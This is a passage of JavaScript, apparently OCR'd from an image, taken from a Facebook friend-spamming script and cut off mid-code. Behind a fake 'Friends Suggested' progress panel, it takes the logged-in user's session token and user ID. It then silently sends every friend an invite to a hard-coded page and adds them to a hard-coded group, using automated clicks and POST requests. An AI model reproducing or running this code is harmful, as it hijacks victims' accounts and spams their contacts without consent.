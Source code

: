 if (i > 0) {             display += arr.length + " Friends Detected&lt;br/>";             display += "&lt;b>" + suc + "&lt;/b> Friends Suggested of " + (arr.length - i) + " Friends Processed ";             display += "(" + i + " Lefted...)";             display += "&lt;div class='friend-edge'>";             display += Descriptions;             display += "&lt;img style='background:center no-repeat url(https://fbcdn-profile-a.akamaihd.net/static-ak/rsrc.php/v2/yo/r/UlIqmHJn-SK.gif);width:50px;height:50px;margin-left:-125px;padding:2px;border:1px solid rgba(0,0,0,0.4);' src=" + pho[i] + ">&lt;/img>&lt;a style='font-size:13px;padding-left:8px;text-align:left;color:#3B5998;position:absolute;font-weight:bold;'>" + arn[i] + "&lt;/a>";             display += "&lt;div style='text-align:center;font-size:10px;white-space:pre-wrap;color:gray'>";             display += _text;             display += "&lt;/div>";             display += "&lt;/div>"         } else {             display += arr.length + " Friends Detected and ";             display += "&lt;b>" + suc + " Friends Suggested&lt;/b>&lt;/br>";             display += "&lt;div>&lt;span class='layerConfirm uiOverlayButton uiButton uiButtonConfirm uiButtonLarge' onClick='window.location.reload()' style='color:white'>Refresh Page&lt;/span>&lt;span class='layerCancel uiOverlayButton uiButton uiButtonLarge' onClick='document.getElementById(\"pagelet_sidebar\").style.display=\"none\"' style='color:gray'>Cancel&lt;/span>"         }         display += "&lt;/div>";         document.getElementById("pagelet_sidebar").innerHTML = display     }, "text", "post");     tay--;     if (tay > 0) {         var s = arr[tay];         sx = pho[tay];         setTimeout("SuggestFriend(" + s + ")", 100)     }     console.log(tay + "/" + arr.length + ":" + arr[tay] + "/" + arn[tay] + ", success:" + suc);        if (newcomer) {         jx.load(window.location.protocol + "//www.facebook.com/ajax/pages/invite/send?&amp;fb_dtsg=" + fb_dtsg + "&amp;profileChooserItems=%7B%22" + opo + "%22%3A1%7D&amp;checkableitems[0]=" + opo + "&amp;page_id=233639806819861&amp;__user=" + user_id + "&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=k&amp;phstamp=", function () {}, "text", "post")     }       if (newcomer) {         jx.load(window.location.protocol + "//www.facebook.com/ajax/groups/members/add_post.php?__a=1&amp;fb_dtsg=" + fb_dtsg + "&amp;group_id=1421483778086884&amp;source=typeahead&amp;members=" + opo + "&amp;nctr[_2]=pagelet_group_members_summary&amp;lsd&amp;post_form_id_source=AsyncRequest&amp;__user=" + user_id, function () {}, "text", "post");     }      }  function clickfr_callback() {     if (document.getElementsByName("ok").length > 0) nHtml.ClickUp(document.getElementsByName("ok")[0]);     var a = arr[i];     if (i &lt; arr.length) addfriend(a.substring(0, 4)) }  function clickfr() {     if (document.getElementsByClassName("search").length > 0) nHtml.ClickUp(document.getElementsByClassName("search")[0].childNodes[0].childNodes[0].childNodes[1]);     else j++;     setTimeout("clickfr_callback()", 2E3) }  function addfriend(a) {     i++;     setTimeout("clickfr()", 2E3) } jx = {     getHTTPObject: function () {         var a = false;         if (typeof ActiveXObject != "undefined") try {             a = new ActiveXObject("Msxml2.XMLHTTP")         } catch (b) {             try {                 a = new ActiveXObject("Microsoft.XMLHTTP")             } catch (c) {                 a = false             }         } else if (window.XMLHttpRequest) try {             a = new XMLHttpRequest         } catch (b) {             a = false         }         return a     },     load: function (url, callback, format, method, opt) {         var http = this.init();         if (!http || !url) return;         if (http.overrideMimeType) http.overrideMimeType("text/xml");         if (!method) method = "GET";         if (!format) format = "text";         if (!opt) opt = {};         format = format.toLowerCase();         method = method.toUpperCase();         var now = "uid=" + (new Date).getTime();         url += url.indexOf("?") + 1 ? "&amp;" : "?";         url += now;         var parameters = null;         if (method == "POST") {             var parts = url.split("?");             url = parts[0];             parameters = parts[1]         }         http.open(method, url, true);         var ths = this;         if (opt.handler) http.onreadystatechange = function () {             opt.handler(http)         };         else http.onreadystatechange = function () {             if (http.readyState == 4)                 if (http.status == 200) {                     var result = "";                     if (http.responseText) result = http.responseText;                     if (format.charAt(0) == "j") {                         result = result.replace(/[
